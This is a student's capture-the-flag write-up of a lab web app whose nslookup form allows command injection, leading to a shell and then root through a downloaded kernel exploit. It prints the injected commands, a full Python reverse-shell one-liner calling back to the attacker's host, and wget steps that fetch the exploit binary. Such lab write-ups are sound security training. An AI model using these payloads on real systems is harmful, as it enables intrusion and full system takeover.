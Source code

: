 # Super Helpful Investigator Tool  
- Category : Red
- Points : N/A 
- Flag: 27a5148ea0fbddae22d902bea9a19531


## Challenge

Was provided with the IP address of `172.20.170.50`. 

## Solve

1) Since I was only provided with an IP address, I used `nmap -sV 172.20.170.50` to see what ports were open. This returned with:
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.12 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        nginx 1.4.6 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SUPER-HELPFUL; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The port 80 http service stood out to me the most because that means there is a webserver running. So, I put the IP address in my webrowser and was presented with the `Super Helpful Investigation Tool`. This page contained a search box in the form of: "Domain: (enter domain here) Investigate (a button to conduct the search)".

2) Now that I am on the website, I took a look around. I wanted to see how the searchbar worked and if there was anything else on the website. First, I used dirb to check for other directories, but there was none. Secondly, I started inoutting domains into the search bar. I started with `google.com` which returned with: 
```
Server: 172.20.170.1
Address: 172.20.170.1#53

Non-authoritative answer:
Name: google.com
Address: 172.217.15.110 
```
Ok, it's returning some kind of additional information on google.com, but what does this mean? At this point, I was reminded about the command `nslookup`. I researched what it did and used it on my local machine for google.com. It returned with almost the exact same thing that the super helpful tool did. This is interesting. 

3) I now realised that the super helpful tool was just running an nslookup command on whatever domain I provided it with. Now, I had to try and figure out how this can get me the flag. It seemed legit and that it only ran the nslookup command, but I had to exploit it in a way that could get me further.

4) I then researched how to string multiple commands in bash so that maybe I could conduct an injection and do something the app isn't supposed to do. This website provides a simple exaplanation of how to do this: https://dev.to/0xbf/run-multiple-commands-in-one-line-with-and-linux-tips-5hgm. I used this knowledge to attempt to run a second command. I inserted `google.com; ls -l` into the super helpful tool to see if it would list out some files for me. It did! This listed an `app.py` and `app.pyc` file. Cool. Now that I know I can insert other commands besides just a domain, I looked deeper. 

5) At this point, I wanted to see what was within the `app.py` file so I used `google.com ; cat app.py`. This was the backbone of the super helpful tool and verified that it indeed was using the nslookup command. 

6) Now that I know what the tool does, I needed a way to get a reverse shell so I could get on the box. But, I have never done this. So, I researched how to get a reverse shell, what a reverse shell is, and how to setup listeners. After knowing how the whole process works, I started looking for a reverse shell one liner that I could inject into the super helpful tool. I landed on: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python - which contained a bunch of reverse shell one liners. 

7) Now that I knew what I needed to do, I got to work. I set up a listener on my machine using `nc -lvnp 1234`. With this running I tested a bunch of one liners, ultimately ending up with: `google.com ; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.20.170.24",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`. Since the listener was on, once I sent the reverse shell one liner through the super helpful tool the following was on my computer: 
```
Listening on 0.0.0.0 1234
Connection received on 172.20.170.50 45625
/bin/sh: 0: can't access tty; job control turned off 
$ 
```
8) Once I saw the dollar sign, I knew I had a reverse shell! But, we aren't done and the flag is not available yet. This is because we were still on the `labnet` account, which is the user hosting the super helpful tool (this just means it doesn't have root privelages and that it only contained the app.py file). I used `whoami` to confirm this. 

I then used `uname -a` to look at the system information and see what is vulnerable for me to exploit. I noticed that the system was running on version 3.13, so I went to https://www.exploit-db.com to search for an exploit. 

I found: https://www.exploit-db.com/exploits/37292. It seemed to match the information I had and do what I needed, so I downloaded it onto my system. 

9) I then needed to download and upload the exploit onto the vulnerable box for execution. I used  `gcc exploit.c -o exploit` to decompile the exploit file and a python server (`python3 -m http.server 9999`) so I can use wget on the vulnerable machine and download the exploit file. 

Since I had the python3 server stoodup, I used `wget http://172.20.170.24:9999/exploit` on the vulnerable machine. But, I received two errors saying: `exploit: Permission denied` and `Cannot write to 'exploit' (Permission denied)`. I then used `pwd` to see that I was in the `/home/www/super-helpful-investigation-tool` directory.I then found out that I should be doing this in the `/tmp `directory since it gets cleared when the server gets restarted and usually lets you write and execute things. After being in the tmp directory I redownloaded the exploit, and it worked! Another thing I learned at this point, was that if the system already has gcc, I could have compiled the exploit on their system instead of doing it before hand. This can be checked with `which gcc`. 

After the exploit was on their machine, I then used `chmod +x exploit` to make the exploit file executable and ran it using `./exploit`. After executing the exploit, I got 
```
spawning threads 
mount #1
mount #2
child threads done 
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off 
# 
``` 
I saw the pound sign and knew it worked! I then used `whoami` to make sure I was root, and I was.

Finally, I did `ls -a` to list the files and `cat flag.json` to read the flag file containing: 
```
{
    "name": "Super Helpful Investigation Tool", 
    "flag": "27a5148ea0fbddae22d902bea9a19531" 
}
```

## Thoughts

This was my first time getting a reverse shell and executing an exploit on a box. I learned a lot about the pentester methedology and how to go about solving problems. I also like how this challenge was multi layered and how there was a lot of figuring out how things worked. I learned how to download an exploit from `exploit-db`, compile it, and execute it on the vulnerable box. I have never done this before, so this was extremely valuable to my red team progression. Finally, I feel confident that I will be able to use the thinking process used here,for other problems. This is a challenge that I will never forget. 